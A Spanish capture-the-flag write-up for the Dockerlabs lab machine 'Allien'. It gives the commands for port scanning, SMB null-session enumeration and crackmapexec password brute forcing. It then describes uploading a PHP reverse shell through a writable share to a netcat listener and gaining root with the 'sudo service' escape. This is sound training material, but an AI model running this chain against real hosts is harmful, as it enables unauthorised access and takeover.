


# Write-up: 

- **Nombre de la máquina:** `Allien` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.

```
 ping 172.17.0.2
```
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux. 


<p align="center">
    
</p>
 
#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto    | Servicio | Versión       | Notas                         |
| --------- | -------- | ------------- | ----------------------------- |
| 22        | ssh      | OpenSSH 9.2p1 | A la espera de credenciales . |
| 80        | http     | httpd 2.4     | recopilamos info              |
| 139 y 445 | smb      | Samba         | vector de ataque              |

<p align="center">
    
</p>

Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa.
Enumeraremos el puerto 80 y nos centraremos como posible vector de ataque inicial en SMB. 

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Vemos un panel de login 

<p align="center">
    
</p>

- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	
![[Pasted image 20251031153517.png]]

- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `/backup`--> X
	- `/uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:
me da muchos errores....
- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```
He tenido problemas con la herramienta gobuster dándome muchos errores en la salida. También he usado `dirb` y `wfuz` pero he experimentad ocngelaciones ne Klai. Por lo qu eno tengo una imagen lo suficnetemnete buena y sin decenas de erroes para poner. Dejo por escrito los direcotorios que he encontrado:


/.php                 (Status: 403) [Size: 275]
/info.php             (Status: 200) [Size: 72710]
/index.php            (Status: 200) [Size: 3543]
/productos.php        (Status: 200) [Size: 5229]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]


**Hallazgos:**
Vemos  rutas llamativas:
- 172.17.0.2/productos.php: 
  una web con ofertas y productos. Además de un un formulario para enviar correos electrónicos pero no va a ningún lado. 
	![[257.png]]
- 172.17.0.2/info.php:
	Podemos ver información sobre la versión de `PHP` que corre en la web, información sobre Apache, configuraciones... : 


![[258.png]]


### Puerto 445 ( SMB)

#### Enumeración Automática:

- Lanzamos la herramienta de enumeración de smb  `enum4linux` que nos aporta mucha información

```
enum4linux -a -u "" -p "" 172.17.0.2
```

![[261.png]]

**Hallazgos:**
Nos informa de la posibilidad de indicar el servicio a través de una `session null`. Con esta opción abiertas nos conectamos al servicio /myshare y encontramos un archivo de texto `access.txt` que contiene un TWC
 ![[259.png]]


Nos reporta un listado de posible usuarios.
![[260.png]]

Nos reporta un listado de directorios compartidos y los permisos que tenemos. 
![[261.png]]

---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Con el usuario `satriani7` lanzamos un ataque de fuerza bruta con `cracmapexec` 

```
crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt
```

El ataque nos revela la contraseña `50cent`

![[262.png]]

Con las credenciales descubiertas en el servicio `smb` con `satriani`  nos conectamos al directorio /backup24:

```
smbclient //172.17.0.2/backup24 -U satriani7
```

Donde encontramos dos archivos en la ruta \Documents\Personal que descargamos con get en nuestra máquina Kali
	-credentials.txt
	- notes.txt 

![[263.png]]

En credentials.txt podemos encontrar un listado con usuarios y contraseñas. Llama la atención el usuario administrador. 

Con el que  enumeramos los recursos compartidso

```
smbmap -H 172.17.0.2 -u administrador -p Adm1nP4ss2024
```

![[264.png]]

Vemos un nuevo directorio `home` en el que tenemos permisos de lectura y escritura. Nos conectamos a él. Listamos su interior: 

![[265.png]]

Podemos ver que es el directory listing de la web con algunos de los directorios que enumeramos con gobuster. 
Teniendo además permisos de lectura y escritura, explotaremos el servicio ejecutando una revershell. Siguiendo estos pasos:
1. Generar código de revershell en www.revershell.com utilizando `PHP PentestMonkey` sin encodear, ajustando nuestra IP y puerto de escucha. 
2. Guardar el código en un archivo nano que he nombrado como `rever.php`.
3. Subir a /home  con el comando `put rever.php`.
4. Levantar `netcat` en nuestra máquina Kali. `sudo nc -nvlp 8888`
5. Poner la ruta 172.17.0.2/rever.php en la barra del navegador y pulsar enter

![[266.png]]

![[267.png]]


---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### Estabilización de la TTY:

Buscamos una shell semi-interactiva. Que ya nos arroja el promt. 

```
script /dev/null -c bash
```

![[268.png]]
### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿Qué usuario somos?
`whoami`

![[Pasted image 20251031202701.png]]

¿A qué grupo pertenezco? `id`

![[274.png]]

¿Qué usuario hay en el sistema?
¿Qué usuario tienen una shell asignada?

```
cat /etc/passwd | grep sh
```
![[270.png]]


Revisamos los directorios de los usuarios pero no pero no tenemos permiso para acceder a ninguno:

![[271.png]]

#### Búsqueda del Vector de Escalada:

- **Permisos Sudo:** ¿Qué comandos podemos ejecutar como otro usuario (o `root`)?
    ```
    sudo -l
    ```
     vemos que el usuario `www-data`   puede ejecutar `/usr/sbin/service` como root sin contraseña :
![[272.png]]

 Acudimos a gtfobins (https://gtfobins.github.io/gtfobins/service/#sudo)
 y nos da el código para elevarnos a `root`


### 4.2. Explotación y Escalada a Root

- Ejecutamos el script sudo ````sudo service ../../bin/sh```` y nos elevamos a `root`. 

![[273.png]]


SOMOS ROOT🚀


